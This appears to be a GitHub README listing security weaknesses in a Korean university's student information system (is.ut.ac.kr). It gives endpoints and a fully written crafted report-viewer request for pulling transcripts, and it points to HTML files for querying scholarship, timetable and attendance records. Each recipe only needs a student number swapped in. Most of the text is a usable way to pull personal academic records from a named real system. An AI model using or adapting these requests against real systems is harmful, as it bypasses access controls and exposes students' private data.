 ## 한국교통대학교 종합정보시스템 (is.ut.ac.kr) Security vulnerabilities

### 학번 조회
* Input your name in Korean and birthday
* This page requires Adobe flash player
    * `https://is.ut.ac.kr/userSearch.jsp`

### 성적표 출력
* Request in Internet Explorer to install cxViewer plugin
* Query string: Change \<STUDENT-NUMBER\> to your student number
    * `https://is.ut.ac.kr/cxViewer/RdView.jsp?view_mode=rdopen_non_output();&param=%2Frp%20%20%5B2020%2D08%2D14%5D%20%5B<STUDENT-NUMBER>%5D%20%5B91215035%5D%20%5B<STUDENT-NUMBER>%5D%20%5B%5D%20%5B<STUDENT-NUMBER>%5D%20%5B00%5D%20%5B%25%5D%20%5B%25%5D%20%2Frl%20%5B%5D%20%2Frfn%20%5Bhttps%3A%2F%2Fis%2Eut%2Eac%2Ekr%2FDataServer%2Frdagent%2Ejsp%5D%20%2Frsn%20%5Bjdbc%2Fusop%5D&mrd=%2FGA%2FSC%2FSC02%2FMRD%2Fcsga%5F04063%2Emrd`

### 장학금 수혜 내역
* Refer to the `query_scholarship_benefits.html` file
* Change \<STUDENT-NUMBER\> to your student number

### 시간표 조회
* Refer to the `query_time_table.html` file
* Change \<STUDENT-NUMBER\> to your student number
* Change \<SEMESTER\> to semester you want to query
* Change \<YEAR\> to the year you want to query

### 전자출결조회
* Refer to the `query_electronic_attendance_inquiry.html` file
* Change \<STUDENT-NUMBER\> to your student number
* Change \<SEMESTER\> to semester you want to query
* Change \<YEAR\> to the year you want to query

---
### Report Designer Editor V5.0 (*.mrd file editor): http://ufdev.hmm21.com/Dist/index.html, [Download](http://ufdev.hmm21.com/Dist/download/ReportDesigner5.0u.zip)
### Last confirmed in 2020-08-31.
